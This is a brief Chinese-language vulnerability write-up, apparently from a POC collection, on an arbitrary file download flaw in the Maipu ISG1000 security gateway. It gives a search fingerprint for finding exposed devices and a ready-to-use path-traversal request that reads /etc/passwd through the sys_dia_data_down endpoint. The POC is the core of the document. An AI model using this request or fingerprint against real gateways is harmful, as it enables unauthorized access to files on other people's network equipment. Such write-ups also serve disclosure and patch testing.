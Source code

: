 # 迈普 ISG1000安全网关 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
迈普 ISG1000安全网关
```

## 网络测绘

```
title="迈普通信技术股份有限公司"
```

## 漏洞复现

登录页面如下

![](images/202202110950648.png)

请求的 POC 为

```plain
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```

![](images/202202110950317.png)